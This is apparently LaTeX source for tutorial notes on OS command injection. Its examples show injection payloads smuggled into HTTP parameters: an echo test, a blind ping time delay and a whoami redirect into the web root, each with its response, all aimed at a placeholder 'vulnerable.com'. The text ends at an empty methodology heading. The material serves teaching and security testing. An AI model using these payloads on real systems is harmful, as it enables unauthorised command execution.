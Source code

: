 \documentclass[12pt]{article}
\begin{document}
\subsection{Example 1: Simple Command Injection}

\begin{lstlisting}
GET /stockStatus?productID=381&echo+injected&storeID=29 HTTP/1.1
Host: vulnerable.com

# Response shows "injected" in output
Error - productID was not provided
injected
29: command not found
\end{lstlisting}

\subsection{Example 2: Blind Time Delay}

\begin{lstlisting}
POST /feedback HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded

email=x||ping+-c+10+127.0.0.1||&message=test

# Response takes 10 seconds to return
\end{lstlisting}

\subsection{Example 3: Output Redirection}

\begin{lstlisting}[language=bash]
# Inject command that writes output to web root
& whoami > /var/www/static/whoami.txt &

# Retrieve the output
GET /whoami.txt HTTP/1.1
Host: vulnerable.com

Response: www-data
\end{lstlisting}


\section{Methodology}

\subsection{Testing Workflow}
\end{document}
